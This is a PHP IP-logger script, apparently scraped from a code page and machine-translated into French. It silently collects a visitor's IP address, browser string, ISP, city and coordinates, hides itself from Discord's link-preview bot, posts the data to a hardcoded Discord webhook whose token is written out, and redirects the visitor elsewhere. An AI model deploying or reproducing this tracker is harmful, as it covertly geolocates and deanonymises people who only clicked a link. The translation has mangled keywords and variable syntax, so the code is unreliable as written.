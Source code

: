 <? php

// Obtenez l'IP et les informations
$ IP        = $ _SERVER [ 'REMOTE_ADDR' ];
$ Browser   = $ _SERVER [ 'HTTP_USER_AGENT' ];

// Empêche-nous de ramasser des ips
if ( preg_match ( '/ bot | Discord | robot | curl | spider | crawler | ^ $ / i' , $ Browser )) {
    exit ();
}

//Info
$ Curl = curl_init ( "http://ip-api.com/json/$IP" ); // Obtenez les informations de l'IP en utilisant Curl
curl_setopt ( $ Curl , CURLOPT_RETURNTRANSFER , true );
$ Info = json_decode ( curl_exec ( $ Curl ));
curl_close ( $ Curl );

$ ISP = $ Info -> isp ;
$ Country = $ Info -> country ;
$ Region = $ Info -> regionName ;
$ City = $ Info -> ville ;
$ COORD = "$ Info-> lat, $ Info-> lon" ; // Coordonnées

// Variables
$ Webhook     = "https://discordapp.com/api/webhooks/710082096516956213/8c38xOKksjBxppCC3hKiosxUFFUcboiN7Q0heCfCHmCHt0v_K6UqPlg-JIVOTwzloqrW" ; // Webhook ici.

$ WebhookTag = "Showcase" ; // Ce sera le nom du webhook lorsqu'il enverra un message.  

// JS que nous allons envoyer au webhook.
$ JS = tableau (
    'username'    => "$ WebhookTag - IP Logger" ,
    'avatar_url' => "https://vgy.me/GQe9bJ.png" ,
    'content'     => "** __ IP Info __ **: \ nIP: $ IP \ nISP: $ ISP \ nBrowser: $ Browser \ n ** __ Location __ **: \ nPays: $ Country \ nRegion: $ Region \ nCity: $ Ville \ nCoordonnées: $ COORD "
);
 
// Encode ce JS pour que nous puissions le poster sur le webhook
$ JSON = json_encode ( $ JS );


fonction  IpToWebhook ( $ Hook , $ Content )
{
    // Utilisez Curl pour publier sur le webhook.
      $ Curl = curl_init ( $ Hook );
      curl_setopt ( $ Curl , CURLOPT_CUSTOMREQUEST , "POST" );
      curl_setopt ( $ Curl , CURLOPT_POSTFIELDS , $ Content );
      curl_setopt ( $ Curl , CURLOPT_RETURNTRANSFER , true );
      return  curl_exec ( $ Curl );
}

IpToWebhook ( $ Webhook , $ JSON );
en-tête ( "Emplacement: https://www.littest.site" );
?>
